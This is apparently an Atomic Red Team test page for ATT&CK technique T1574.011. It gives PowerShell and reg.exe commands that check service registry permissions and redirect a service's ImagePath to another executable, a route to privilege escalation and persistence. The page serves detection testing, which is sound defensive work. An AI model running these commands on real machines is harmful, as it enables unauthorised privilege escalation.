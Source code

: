 # T1574.011 - Services Registry Permissions Weakness
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/011)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the Registry entries used by services. Adversaries may use flaws in the permissions for registry to redirect from the originally specified executable to one that they control, in order to launch their own code at Service start.  Windows stores local service configuration information in the Registry under <code>HKLM\SYSTEM\CurrentControlSet\Services</code>. The information stored under a service's Registry keys can be manipulated to modify a service's execution parameters through tools such as the service controller, sc.exe,  [PowerShell](https://attack.mitre.org/techniques/T1059/001), or [Reg](https://attack.mitre.org/software/S0075). Access to Registry keys is controlled through Access Control Lists and permissions. (Citation: Registry Key Security)

If the permissions for users and groups are not properly set and allow access to the Registry keys for a service, then adversaries can change the service binPath/ImagePath to point to a different executable under their control. When the service starts or is restarted, then the adversary-controlled program will execute, allowing the adversary to gain persistence and/or privilege escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

Adversaries may also alter Registry keys associated with service failure parameters (such as <code>FailureCommand</code>) that may be executed in an elevated context anytime the service fails or is intentionally corrupted.(Citation: Kansa Service related collectors)(Citation: Tweet Registry Perms Weakness) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Service Registry Permissions Weakness](#atomic-test-1---service-registry-permissions-weakness)

- [Atomic Test #2 - Service ImagePath Change with reg.exe](#atomic-test-2---service-imagepath-change-with-regexe)


<br/>

## Atomic Test #1 - Service Registry Permissions Weakness

auto_generated_guid: f7536d63-7fd4-466f-89da-7e48d550752a

Service registry permissions weakness check and then which can lead to privilege escalation with ImagePath. eg.
reg add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /v ImagePath /d "C:\temp\AtomicRedteam.exe"
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| weak_service_name | weak service check | String | weakservicename|


#### Attack Commands: Run with `powershell`! 


```powershell
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\* |FL
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name} |FL
```






<br/>
<br/>

## Atomic Test #2 - Service ImagePath Change with reg.exe

auto_generated_guid: f38e9eea-e1d7-4ba6-b716-584791963827

Change Service registry ImagePath of a bengin service to a malicious file
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| weak_service_name | weak service name | String | calcservice|
| weak_service_path | weak service path | String | %windir%&#92;system32&#92;win32calc.exe|
| malicious_service_path | malicious service path | String | %windir%&#92;system32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /f /v ImagePath /d "#{malicious_service_path}"
```

#### Cleanup Commands:
```cmd
sc.exe delete #{weak_service_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: The service must exist (#{weak_service_name})
##### Check Prereq Commands:
```powershell
if (Get-Service #{weak_service_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
sc.exe create #{weak_service_name} binpath= "#{weak_service_path}"
```




<br/>
